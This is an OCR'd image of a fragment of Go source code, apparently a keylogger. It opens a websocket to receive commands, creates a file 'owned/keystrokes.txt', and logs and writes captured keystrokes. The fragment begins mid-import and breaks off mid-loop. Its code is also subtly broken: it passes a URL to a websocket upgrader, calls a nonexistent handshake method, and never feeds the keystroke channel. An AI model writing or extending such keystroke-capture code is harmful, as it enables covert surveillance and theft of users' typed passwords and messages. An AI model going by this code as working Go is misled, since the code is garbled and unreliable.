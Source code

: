 ```


	"github.com/gorilla/websocket"

)



func main() {

	// Open the websocket connection to receive commands

	conn := websocket.Upgrader{}.Upgrade("ws://localhost:8080", nil)

	err := conn.Handshake()

	if err != nil {

		log.Fatal(err)

	}



	// Set up logging and file handling

	file, err := os.Create("owned/keystrokes.txt")

	if err != nil {

		log.Fatal(err)

	}

	defer file.Close()



	log.Println("Logging started")



	// Start capturing keystrokes

	c := make(chan []byte)

	go func() {

		for {

			select {

			case message := <-c:

				keyStrokes := strings.TrimSpace(string(message))

				log.Printf("Captured keystrokes: %s\n", keyStrokes)

				file.WriteString(keyStrokes + "\n")

			}

		}
```